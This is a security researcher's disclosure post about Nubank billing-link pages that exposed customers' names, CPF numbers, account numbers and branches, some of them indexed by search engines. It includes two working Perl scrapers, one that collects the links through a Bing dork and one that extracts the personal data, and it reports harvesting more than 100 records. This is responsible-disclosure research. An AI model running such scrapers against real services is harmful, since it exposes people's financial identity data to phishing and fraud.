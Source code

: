 ```yaml
---
layout: content
title: 'A little case about scraping personal data exposure in the web'
description: 'Between the use and some tests that I always end up running on the applications I have installed on my Smartphone, I ended up bumping into a very interesting feature of Nubank, which allows the user to create a "billing link" and send that link to one or more people to charge. I found the functionality very useful, but when I saw up close how it worked, I was a little uncomfortable in view of the number of scenarios that that implementation could be exposed ... With this intrinsic dissatisfaction, I decided to generate some proof of concepts and share them with the company so that they could re-evaluate the design of the functionality and it turned out that in this quick and simple demonstration I was able to map some personal data (CPF, Full Name, Account Number and Agency) of more than 100 customers.'
og_image: https://heitorgouvea.me/images/publications/research/nubank/google-dorks.png
---
```


### Summary

Between the use and some tests that I always end up running on the applications I have installed on my Smartphone, I ended up bumping into a very interesting feature of Nubank, which allows the user to create a "billing link" and send that link to one or more people to charge. I found the functionality very useful, but when I saw up close how it worked, I was a little uncomfortable in view of the number of scenarios that that implementation could be exposed ... With this intrinsic dissatisfaction, I decided to generate some proof of concepts and share them with the company so that they could re-evaluate the design of the functionality and it turned out that in this quick and simple demonstration I was able to map some personal data (CPF, Full Name, Account Number and Agency) of more than 100 customers.

---

### Disclaimer

The responsible company was informed about all details contained in this publication in the shortest possible time and it positioned itself in an ethical and transparent manner, demonstrating due attention and commitment. During all tests, no system was invaded or breached, in addition, the company performed all necessary actions/modifications to minimize any undue action that explores the context covered in this publication.

---

### Description

Within the Nubank mobile application, there is a feature called "Charge", this feature comes down to you filling in a value of your desire (if you want) and clicking confirm:

![](/images/publications/research/nubank/creating-a-link.png)

After that, a QR Code is generated and you have the option to share it or send the bill through another application, such as WhatsApp:

![](/images/publications/research/nubank/whatsapp-shared-link.png)

When I came across this link (the content of the QR Code is also the link), I decided to open it in the browser to take a look and this was the result:

![](/images/publications/research/nubank/personal-infos.png)

I came across my full name, CPF, my bank account number and branch exposed without any kind of control, the only requirement to get my information through Nubank was to have such a URL.

Such URL is generated exclusively by the client in your application and it is also up to the client to define how and with whom to share each generated URL.

Convinced to assess whether this was really possible, I decided to create a * dork * to try to find more of these URLs, this time exposed on the Internet and this was the result:

![](/images/publications/research/nubank/google-dorks.png)

Surprised by the fact that Nubank allowed Google and other search engines to index these pages, I decided to validate that such URLs were being published on other channels, and the first channel I decided to validate was Twitter:

![](/images/publications/research/nubank/twitter-links.png)

And these are just some of the results, on Twitter you could see that some people use this functionality to receive donations and others use it in very general ways ...

---

### Proof of Concept

Convinced to demonstrate an impact of the abuse of this functionality, I decided to create a proof of concept. The first part of this PoC boiled down to building code that would be able to use a search engine to collect as many URLs as possible, so I did a simple *scraper* for Bing:

```perl
#!/usr/bin/env perl

use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw( url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        my $mech = WWW::Mechanize -> new();
        my %seen = ();
        my @urls = ();

        $dork = url_escape($dork);

        for (my $page = 0; $page <= 10; $page++) {
            my $url = "http://www.bing.com/search?q=" . $dork . "&first=" . $page . "0";
            $mech -> get($url);
            my @links = $mech -> links();
                        
            foreach my $link (@links) {
                $url = $link -> url();
                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

main();
exit;
```

From that code, I was able to collect 100 valid URLs:

![](/images/publications/research/nubank/file-with-the-urls.png)

After having all these URLs in a .txt, I had to build another *scraper* that scraped data on the Nubank page:

```perl
#!/usr/bin/env perl

use 5.018;
use strict;
use warnings;
use Mojo::DOM;
use LWP::UserAgent;

sub main {
    my $urls = $ARGV[0];

    if ($urls) {
        open (my $endpoints, "<", $urls); 

        while (<$endpoints>) {
            chomp ($_);

            my $userAgent = LWP::UserAgent -> new();
            my $request   = $userAgent -> get($_);
            my $response  = $request -> content();

            if ($response) {
                my $dom = Mojo::DOM -> new();
                $dom -> parse($response);

                my $account = $dom -> find("tr td") -> map("text") -> join(","); 

                $account =~ s/Nome,// && 
                $account =~ s/CPF,// &&
                $account =~ s/Banco,// &&
                $account =~ s/Tipo da conta,// &&
                $account =~ s/Agência,// &&
                $account =~ s/Conta,// &&
                $account =~ s/Agência Métodos,//;
                
                say $account;
            }        
        }

        close ($endpoints);
    }
}

main();
exit;
```

And this was the result:

![](/images/publications/research/nubank/collect-with-names-cpfs.png

CPF, Full name, account number and branch of more than 100 people, in just a few minutes and a few lines of code.

---

### Impact

The possibility of an attacker abusing this functionality available within Nubank systems is relatively high, as it can expose a huge amount of users, leaking some sensitive information as illustrated above, in addition an attacker who has such information at hand, can use it to strengthen/create a social engineering approach.

---

### Conclusion

Through this analysis it is possible to affirm that a convinced person could implement several *scrapers* in order to map Nubank billing URLs and later collect personal information present in them. This article had PoC as one of those implementations, using a search engine, but there is still room for other channels, such as social networks (Twitter, Facebook and others). What could be used to take these people to exposure or risk scenarios, such as being victims of *spear phishing*/social engineering.

---

### References

[**https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure**](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)

[**https://en.wikipedia.org/wiki/Google_hacking**](https://en.wikipedia.org/wiki/Google_hacking)

[**https://en.wikipedia.org/wiki/Web_scraping**](https://en.wikipedia.org/wiki/Web_scraping)